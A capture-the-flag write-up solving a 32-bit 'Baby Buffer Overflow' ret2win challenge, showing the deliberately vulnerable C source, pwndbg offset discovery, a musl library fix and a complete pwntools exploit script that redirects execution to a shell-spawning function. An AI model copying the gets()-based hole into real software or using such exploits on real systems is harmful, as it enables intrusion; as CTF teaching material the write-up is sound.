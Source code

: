 ```yaml
---
title: # Baby Buffer Overflow - 32bit
author: saturn_
pubDate: 2024-10-17
toc: true
share: true
ogImage: true
---
```


# Baby Buffer Overflow - 32bit 

<p align="center">
  <img src="../../images/logo.jpg" alt="Dombusters" width="25%">
</p>

## Description

Author: @aenygma

Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible?

Press the Start button on the top-right to begin this challenge.
Attachments: 

`babybufov`, `babybufov.c`

## Solution

We're given a source file, `babybufov.c`, containing this:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

So, we can see that this is a ret2win, so this is trivial! Let's just get the addresses we need in `gdb`, and then we have an easy flag!

```bash
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Starting program: /home/strn/babybufov
zsh:1: no such file or directory: /home/strn/babybufov
During startup program exited with code 127.
pwndbg>
```

... the fuck?


Turns out, this is not an issue of the executables location. We can run `file` against it with no problem, but executing the file somehow makes it nonexistent again? 

Turns out, this is a problem of the libraries of the executable. We can use `ldd` to check which libraries it tries to link to.
```
$ ldd babybufov
	linux-gate.so.1 (0xeefe9000)
	libc.musl-x86.so.1 => not found
```

Alright, so we have the linux-gate.so.1, but we're missing MUSL. Installing MUSL via `sudo pacman -S musl` doesn't fix our problem, so what we have to do is install MUSL via the AUR via `paru -S aur/i386-musl`.

Let's go back to GDB.

```bash
$  gdb-pwndbg ./babybufov
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
pwndbg> r
Gimme some data!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab

Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()
# SNIP
00:0000│ esp 0xffffd0d0 ◂— 'iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab'
```

We can get the offset by using the `cyclic` function.

```bash
pwndbg> cyclic -l iaaa
Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
```

Because this is a 32-bit binary, we have to subtract 4 bytes from what we get here, so the offset is *actually* 28. 

Here's the solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./babybufov')

exe = context.binary

payload = b'A' * 28
payload += p32(0x8049006) # objdump -d ./babybufov | rg "ret"
payload += p32(exe.symbols['target'])


io = process()

io.sendline(payload)

io.interactive()
```


---
**Dombusters**: _Writeup written by saturn_

